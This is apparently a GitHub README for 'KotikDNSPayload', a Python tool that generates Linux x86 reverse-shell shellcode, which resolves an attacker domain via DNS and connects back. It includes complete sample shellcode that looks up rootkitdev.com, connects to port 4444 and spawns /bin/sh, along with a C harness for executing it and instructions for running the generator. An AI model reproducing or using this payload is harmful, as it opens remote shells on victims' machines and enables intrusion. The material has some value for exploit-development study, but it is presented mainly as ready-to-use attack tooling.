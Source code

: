 # KotikDNSPayload
ReverseDnsPayload -- The First and Only In The World! 

## Currenty working on uploading this to Metapsloit Stay Tuned!




![xitriykotik](https://github.com/SourceCodeDeleted/HitriyKotik/blob/master/HitriyKotik.png)


```
Hitriy Kotik (Tricky Cat) is my name and I like dealing in shellcode. I have something special in the market place for you! 

 !!!!! A Reverse DNS TCP Payload For Linux !!!!! 

 Tell Me , a few things and I will generate the shellcode for you!
[+] Tell Me The Domain You wish To Connect Back To : rootkitdev.com
[+] Tell Me The Port   You Wish To Connect Back To : 4444
[+] I Am Making Your PayLoad Right Now....
[+] ASM Created Successfully....
[+] Nasm Compiling........
[+] Objdumping........


\x6a\x66\x58\x6a\x01\x5b\x31\xc9\x51\x6a\x02\x6a\x02\x89\xe1\xcd\x80\x50\x68\x08\x08\x08\x08\x31\xd2\xb6\x35\x66\x52\x66\x6a\x02\x89\xe1\x6a\x10\x51\x50\x89\xe1\x89\xc6\x31\xc0\xb0\x66\x80\xc3\x02\xcd\x80\x31\xc0\xb0\x66\x6a\x00\x68\x00\x01\x00\x01\x68\x63\x6f\x6d\x00\x68\x64\x65\x76\x03\x68\x74\x6b\x69\x74\x68\x0a\x72\x6f\x6f\x6a\x00\x68\x00\x01\x00\x00\x68\xaa\xaa\x01\x00\x89\xe2\x31\xc9\x51\x6a\x40\x52\x56\x89\xe1\x31\xdb\xb3\x09\xcd\x80\xb8\x03\x00\x00\x00\xbb\x03\x00\x00\x00\x89\xe1\xba\x64\x00\x00\x00\xcd\x80\x01\xc4\x83\xec\x04\x8b\x04\x24\x50\x31\xd2\x6a\x66\x58\x6a\x01\x5b\x52\x53\x5a\x6a\x02\x89\xe1\xcd\x80\x89\xc6\x6a\x66\x58\x6a\x03\x5b\x52\x66\x68\x5c\x11\x66\x6a\x02\x89\xe7\x6a\x10\x57\x56\x89\xe1\xcd\x80\x89\xf3\x31\xc9\xb1\x02\xb0\x3f\xcd\x80\x49\x79\xf9\xbc\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xd1\xb0\x0b\xcd\x80


```



# To Run:
simply run ...
```
python hitriykotik.py 
```

and you'll be greeted by the Cat above and he will ask you a couple of questions and use nasm and objdump to give you yourshellcode.

# Requirements

Linux is desireable, but not required.
1. python2.7
2. nasm
3. objectdump


# For Testing:
Make a C file and compile using
```
gcc -m32 test.c -o test
``` 
```
#include<stdio.h>
#include<string.h>

const char shellcode[] =  "\0x00\YOUR\SHELL\CODE\0x00\";



int main(){
    int (*ret)() = (int(*)())shellcode;
    ret();
}


```

# Known Issues:
I am reading from a socket For the DNS response. Read will wait until the socket has a buffer to read from. This means that if you receive no DNS response , your program will wait indefinitley. 

### Stay Secure My Friends!
